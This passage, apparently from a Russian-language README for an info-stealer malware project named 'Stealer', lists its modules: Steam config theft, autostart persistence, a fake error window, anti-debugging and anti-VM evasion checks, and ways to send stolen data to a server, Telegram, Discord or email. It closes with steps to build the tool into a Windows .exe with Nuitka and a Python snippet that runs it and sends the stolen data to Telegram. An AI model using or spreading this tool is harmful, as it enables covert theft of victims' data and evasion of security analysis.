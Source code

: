   - `steam` - сбор конфигов Steam.
  

- `utils` - список утилит из `Stealer.Utils`:

  - `autostart` - добавление в автозагрузку.

  - `message` - вывод фейкового [окна ошибки](https://github.com/FallenAstaroth/Stealer/wiki/Fake-error).
  

- `protectors` - список протекторов из `Stealer.Protectors`:

  - `processes` - проверка процессов на наличие программ для дебагинга и виртуальных машин.

  - `mac_address` - проверка MAC аддрессов на присутствие в чёрном списке.

  - `computer` - проверка названия PC на присутствие в чёрном списке.

  - `user` - проверка имени пользователя на присутствие в чёрном списке.

  - `hosting` - проверка находится ли PC на хостинге.

  - `http_simulation` - проверка на симуляцию HTTP.

  - `virtual_machine` - проверка на виртуальную машину.

  - `disable` - полное отключение всех проверок.

  - `all` - включение всех проверок.


- `senders` - список способов отправки из `Stealer.Senders`:

  - `server` - отправка на [сервер].

  - `telegram` - отправка в [Telegram].

  - `discord` - отправка в [Discord].

  - `smtp` - отправка на [почту].


- `loaders` - список подгрузчиков файлов из `Stealer`:

  - `Loader` - универсальный [подгрузчик].


- `grabbers` - список сборщиков файлов из `Stealer`:

  - `Grabber` - универсальный [сборщик].

## Создание exe
Python является интерпретируемым языком программирования, поэтому мы сначала транслируем его в C, а затем скомпилируем в .exe файл.
Для этого нам понадобится Nuitka.

### Создание исполняемого файла

1. [Скачиваем] архив.
2. Распаковываем архив и переходим в директорию Stealer-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from Stealer import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
